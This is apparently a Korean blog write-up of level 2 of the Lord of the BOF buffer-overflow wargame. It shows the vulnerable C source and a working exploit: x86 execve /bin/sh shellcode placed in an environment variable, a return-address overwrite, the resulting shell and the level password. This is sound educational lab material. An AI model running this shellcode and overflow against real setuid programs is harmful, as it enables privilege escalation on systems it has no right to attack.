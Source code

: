 ```yaml
---
title: LOB 2번 gremlin -> cobolt Write-up
date: 2017-8-26 18:05:00
categories: LOB
tags: LOB, gremlin, cobolt
---
```


## LOB 2번

이번 레벨은 cobolt이다. 뭔가 1번이랑 비슷해 보인다.

    [gremlin@localhost gremlin]$ ls -l
    total 20
    -rwsr-sr-x    1 cobolt   cobolt      11970 Feb 26  2010 cobolt
    -rw-r--r--    1 gremlin  gremlin       291 Mar 29  2010 cobolt.c
    [gremlin@localhost gremlin]$ cat cobolt.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - cobolt
            - small buffer
    */
    
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

`buffer`에 16바이트까지 인자를 전달받아 저장하고, `printf`로 출력한다. 이번에도 16 + 4, 즉 20바이트의 인자를 전달하면 오버플로우가 생긴다. 참고로 LOB가 돌아가는 리눅스 환경은 레드햇 6.2로 더미 메모리나 랜덤스택이 없다고 하니 더미 메모리같은것은 걱정하지 않아도 된다. 

### 쉘코드 제작

    [gremlin@localhost gremlin]$ mkdir temp
    [gremlin@localhost gremlin]$ cd temp
    [gremlin@localhost temp]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [gremlin@localhost temp]$ gcc -o addr addr.c
    [gremlin@localhost temp]$ ls -l
    total 16
    -rwxrwxr-x    1 gremlin  gremlin     11848 Aug 22 12:38 addr
    -rw-rw-r--    1 gremlin  gremlin        86 Aug 22 12:38 addr.c

이렇게 shell이라는 환경변수의 주소를 가져오는 프로그램을 1번과 똑같이 짜 보았다.

    [gremlin@localhost gremlin]$ export shell=`python -c 'print "\x90"*100+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [gremlin@localhost gremlin]$ export
    declare -x BASH_ENV="/home/gremlin/.bashrc"
    declare -x HISTSIZE="1000"
    declare -x HOME="/home/gremlin"
    declare -x HOSTNAME="localhost.localdomain"
    declare -x HOSTTYPE="i386"
    declare -x INPUTRC="/etc/inputrc"
    declare -x LANG="en_US"
    declare -x LESSOPEN="|/usr/bin/lesspipe.sh %s"
    declare -x LOGNAME="gremlin"
    declare -x LS_COLORS="no=00:fi=00:di=01;34:ln=01;36:pi=40;33:so=01;35:bd=40;33;01:cd=40;33;01:or=01;05;37;41:mi=01;05;37;41:ex=01;32:*.cmd=01;32:*.exe=01;32:*.com=01;32:*.btm=01;32:*.bat=01;32:*.sh=01;32:*.csh=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31:*.taz=01;31:*.lzh=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.gz=01;31:*.bz2=01;31:*.bz=01;31:*.tz=01;31:*.rpm=01;31:*.cpio=01;31:*.jpg=01;35:*.gif=01;35:*.bmp=01;35:*.xbm=01;35:*.xpm=01;35:*.png=01;35:*.tif=01;35:"
    declare -x MACHTYPE="i386-redhat-linux-gnu"
    declare -x MAIL="/var/spool/mail/gremlin"
    declare -x OSTYPE="linux-gnu"
    declare -x PATH="/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/gremlin/bin"
    declare -x PWD="/home/gremlin"
    declare -x REMOTEHOST="192.168.42.1"
    declare -x SHELL="/bin/bash"
    declare -x SHLVL="2"
    declare -x TERM="xterm"
    declare -x USER="gremlin"
    declare -x USERNAME=""
    declare -x shell="1À°1Í€‰Ã‰Á1À°FÍ€1ÀPh//shh/bin‰ãPS‰á1Ò°
                                                            Í€"

이렇게 41byte 쉘코드를 `shell`이라는 환경변수에 등록하고, `export`로 정상적으로 등록된 것을 확인하였다.


    [gremlin@localhost temp]$ ./addr
    0xbffffea1
    [gremlin@localhost temp]$ cd ..
    [gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*20 + "\xa1\xfe\xff\xbf"'`
    ¡þÿ¿
    bash$ id
    uid=502(cobolt) gid=501(gremlin) egid=502(cobolt) groups=501(gremlin)
    bash$ my-pass
    euid = 502
    hacking exposed

이렇게 2번 문제의 비밀번호도 나왔다.

알고보니 1번을 풀었듯이 환경변수로 풀면 되는 문제였다. 차이점이 버퍼 크기가 256byte -> 16byte로 줄어들었다는 것이다. 1번은 환경변수로 풀 필요가 없이 버퍼 자체에다가 쉘코드를 넣어도 되지만, 2번은 버퍼가 16byte밖에 되지 않는 관계로 환경변수를 사용할 수 밖에 없는 것이다.